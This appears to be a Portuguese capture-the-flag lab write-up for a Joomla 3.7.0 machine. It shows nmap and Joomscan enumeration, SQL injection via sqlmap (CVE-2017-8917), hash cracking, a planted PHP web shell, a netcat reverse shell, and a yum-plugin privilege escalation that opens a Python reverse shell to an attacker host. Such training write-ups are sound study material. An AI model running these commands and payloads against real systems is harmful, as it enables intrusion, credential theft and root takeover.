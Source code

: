 ```yaml
---
title: DareDevil
category: EHPT
---
```


## Enumeração

### Scan inicial

- Full NMAP scan TCP

```plaintext
# Nmap 7.80 scan initiated Sun Jun 21 13:13:41 2020 as: nmap -sC -sV -oA quick 172.16.0.129
Nmap scan report for 172.16.0.129
Host is up (0.65s latency).
Not shown: 996 filtered ports
PORT     STATE  SERVICE    VERSION
22/tcp   open   ssh        OpenSSH 8.0 (protocol 2.0)
| ssh-hostkey: 
|   3072 4a:9f:3f:71:3e:d0:a3:81:5b:54:04:14:54:b4:e6:0a (RSA)
|   256 33:4b:af:35:6e:1a:c0:f9:73:d4:9f:29:fa:a2:35:af (ECDSA)
|_  256 1a:a0:ed:a2:2a:c7:ee:4c:47:ef:1b:80:7a:de:dc:a0 (ED25519)
80/tcp   open   http       Apache httpd 2.4.37 ((centos))
|_http-generator: Joomla! - Open Source Content Management
| http-robots.txt: 15 disallowed entries 
| /joomla/administrator/ /administrator/ /bin/ /cache/ 
| /cli/ /components/ /includes/ /installation/ /language/ 
|_/layouts/ /libraries/ /logs/ /modules/ /plugins/ /tmp/
|_http-server-header: Apache/2.4.37 (centos)
|_http-title: Home
443/tcp  closed https
9090/tcp closed zeus-admin

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Jun 21 13:15:01 2020 -- 1 IP address (1 host up) scanned in 80.23 seconds
```

### 80/TCP - HTTP

- Analisando a porta 80/TCP, notado que existe um serviço HTTP em execução com o serviço de CMS Joomla

- Para enumerção utilizado script Joomscan que lista, dentre outras informações, qual a versão do CMS utilizada

```plaintext
                                                                                                                                                                                    [46/46]
    ____  _____  _____  __  __  ___   ___    __    _  _ 
    (_  _)(  _  )(  _  )(  \/  )/ __) / __)  /__\  ( \( )
  .-_)(   )(_)(  )(_)(  )    ( \__ \( (__  /(__)\  )  ( 
  \____) (_____)(_____)(_/\/\_)(___/ \___)(__)(__)(_)\_)
                        (1337.today)           
                                
    --=[OWASP JoomScan                                                                        
    +---++---==[Version : 0.0.7                                                               
    +---++---==[Update Date : [2018/09/23]
    +---++---==[Authors : Mohammad Reza Espargham , Ali Razmjoo
    --=[Code name : Self Challenge             
    @OWASP_JoomScan , @rezesp , @Ali_Razmjo0 , @OWASP
                                                
Processing http://172.16.0.129 ...             
                                                
                                                
                                                
[+] FireWall Detector                          
[++] Firewall not detected     
                                                
[+] Detecting Joomla Version                   
[+ Joomla 3.7.0         
```

## Exploração

### CVE-2017-8917

- Após execução do Joomscan,  identificado que a versão em uso é a 3.7.0, a qual possui uma vulnerabilidade de SQL Injection

```plaintext
dcruz@kali:/dcruz/ehpt/daredevil/scan$ searchsploit joomla 3.7.0
------------------------------------------------------------ ---------------------------------
  Exploit Title                                              |  Path
------------------------------------------------------------ ---------------------------------
Joomla! 3.7.0 - 'com_fields' SQL Injection                  | php/webapps/42033.txt
Joomla! Component Easydiscuss < 4.0.21 - Cross-Site Scripti | php/webapps/43488.txt
------------------------------------------------------------ ---------------------------------
Shellcodes: No Results
```

```plaintext
URL Vulnerable: http://localhost/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml%27

Using Sqlmap: 

sqlmap -u "http://localhost/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering]

available databases [5]:
[*] information_schema
[*] joomla_db
[*] joomla_DB
[*] mysql
[*] performance_schema

Database: joomla_DB                         
Table: s62u1_users                        
[1 entry]                                
+----------+--------------------------------------------------------------+
| username | password                                                     |
+----------+--------------------------------------------------------------+
| murdock  | $2y$10$cPtYaw48tjJUxlhiQKZsFuPROWSKkExNm8KlGapSUWd3x7IGtA57u |
+----------+--------------------------------------------------------------+

Table: bak_#__users
[1 entry]
+----------+--------------------------------------------------------------+
| username | password                                                     |
+----------+--------------------------------------------------------------+
| murdock  | $2y$10$Mi96NMozkzN9U3J/yOwZ/eBY3Pi8P5c5f2eTafxFylU/oW8d56v9G |
+----------+--------------------------------------------------------------+
```

- Utilizando o SQLmap, listado o username e hash de senha do usuário, o qual foi possível quebrar utilizando o hashcat conforme comandos abaixo

```bash
hashcat -m3200 hash /usr/shared/wordlists/rockyou --force

hashcat -m3200 hash --show
$2y$10$Mi96NMozkzN9U3J/yOwZ/eBY3Pi8P5c5f2eTafxFylU/oW8d56v9G:letmein
$2y$10$cPtYaw48tjJUxlhiQKZsFuPROWSKkExNm8KlGapSUWd3x7IGtA57u:letmein
```

- Com a senha do adminitrador murdock, acessado o painel administrativo do joomla e configurado, no lugar da pagina error.php, um shell para execução remota

```php
<?php system($_GET['cmd']);?>
```

- A partir desta pagina, que se encontra no caminho /templates/protostar/error.php foi possível obter execução remota ao passar o comando na variavel get, conforme acima criado

  ![image-20200622181255650](C:\Temp\EHPT\DareDevil.assets\image-20200622181255650.png)

- A partir desta execução, obtido shell reverso enviando o seguinte comando

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 172.16.0.128 4443 >/tmp/f
```

- A partir da conta apache, a qual foi a conta com que foi obtido o shell, realizada a enumerção da maquina, iniciando pelas credenciais do banco de dados, porem esta senha nao funcionou para o usuário root

```bash
public $user = 'root';         
public $password = 'thebigbangtheory';
public $db = 'joomla_db';    
```

- Para enumerar os users da maquina, executado o comando users e o usuário usuário retornado foi o murdock, para o qual foi tentada a senha obtida e houve êxito, obtendo a flag de user

```plaintext
[murdock@localhost ~]$ cat user.txt 
0584f2d8a427826209eac4de5a12596a
```

## Escalação de Privilégios

- Ao acessar com o usuário murdock, uma vez que se tem a sua senha, executado o comando sudo -l e validado que  mesmo pode executar o comando yum com permissões administrativas

```plaintext
[murdock@localhost ~]$ sudo -l
Entradas de Defaults correspondentes a murdock em localhost:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin, env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS", env_keep+="MAIL PS1 PS2 QTDIR
    USERNAME LANG LC_ADDRESS LC_CTYPE", env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES", env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE",
    env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY", secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

Usuário murdock pode executar os seguintes comandos em localhost:
    (root) NOPASSWD: /usr/bin/yum
[murdock@localhost ~]$      
```

- Pesquisando no GTFOBins, validado que é possivel escalar utilizando um plugin ou rpm crafted. o seguinte procedimento foi realizado que envia um shell reverso como root

```bash
TF=$(mktemp -d)
cat >$TF/x<<EOF
[main]
plugins=1
pluginpath=$TF
pluginconfpath=$TF
EOF

cat >$TF/y.conf<<EOF
[main]
enabled=1
EOF

cat >$TF/y.py<<EOF
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("172.16.0.128",4443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
EOF

sudo yum -c $TF/x --enableplugin=y
```

- Após este procedimento, obtido flag root

```plaintext
sh-4.4#cat root.txt
cat root.txt
54d22dbab9a3f1ed0f82a774daccc0ab
sh-4.4#
```
